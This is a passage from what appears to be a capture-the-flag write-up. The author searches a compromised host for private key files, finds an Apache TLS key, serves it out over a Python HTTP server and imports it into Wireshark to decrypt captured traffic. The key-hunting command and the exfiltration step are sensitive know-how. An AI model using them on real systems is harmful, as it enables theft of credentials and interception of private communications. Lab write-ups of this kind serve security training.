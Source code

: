 ![8](/images/whyhackme/8.jpg)

Opening it in **Wireshark**, I noticed that the traffic was encrypted using TLS — not immediately useful unless I could decrypt it.

So, I searched the system for private keys:

```
find / -name *.key 2>/dev/null
```

```
jack@ubuntu:~$ find / -name *.key 2>/dev/null
/etc/apache2/certs/apache.key
jack@ubuntu:~$ cd /etc/apache2/certs
jack@ubuntu:/etc/apache2/certs$ python3 -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
10.23.106.242 - - [10/Jul/2025 10:00:35] "GET /apache.key HTTP/1.1" 200 -

```

Bingo. I served the file to myself via a Python HTTP server. I downloaded `apache.key` , then loaded it into Wireshark:

> Edit → Preferences → Protocols → TLS → RSA Keys → Import
